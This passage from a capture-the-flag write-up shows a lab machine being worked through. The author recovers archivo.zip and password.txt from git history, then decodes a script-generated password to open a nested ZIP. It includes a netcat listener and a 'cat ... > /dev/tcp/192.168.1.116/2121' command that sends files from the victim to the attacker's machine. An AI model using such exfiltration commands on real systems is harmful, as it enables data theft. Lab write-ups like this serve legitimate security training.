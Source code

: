 We find two files `archivo.zip` and `password.txt` that aren't in the application folder; we try to recover them.

```bash
lenam@guitjapeo:~/.local/bin/web$ git checkout ecdef85 -- archivo.zip password.txt
lenam@guitjapeo:~/.local/bin/web$ ls -l
total 192
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
-rw-r--r--   1 lenam lenam  43766 Sep 21 00:38 archivo.zip
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:38 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
-rw-r--r--   1 lenam lenam    157 Sep 21 00:38 password.txt
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ cat password.txt 
# This script is written in Python
def obtain_password():
    return ''.join([chr(ord(c) + 1) for c in '  ..lmruuuC^'])

print(obtain_password())
```

### ZIP File

We bring the files found in the git history, `archivo.zip` and `password.txt`, to our attacking machine.

On our attacking machine

```bash
nc -lvnp 2121 > archivo.zip
```

and on the victim machine inside the folder where `archivo.zip` and `password.txt` are located.

```bash
cat archivo.zip > /dev/tcp/192.168.1.116/2121
```

We do the same for the `password.txt` file.

The `password.txt` file contains a Python script that returns a password.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python password.txt    
!!//mnsvvvD_
```

With this password, we can unzip the ZIP file, which is protected with a password. Inside this file, we find another two files `archivo.zip` and `password.txt`.

The new ZIP file is still protected by a password, and the `password.txt` file this time contains a Ruby script.
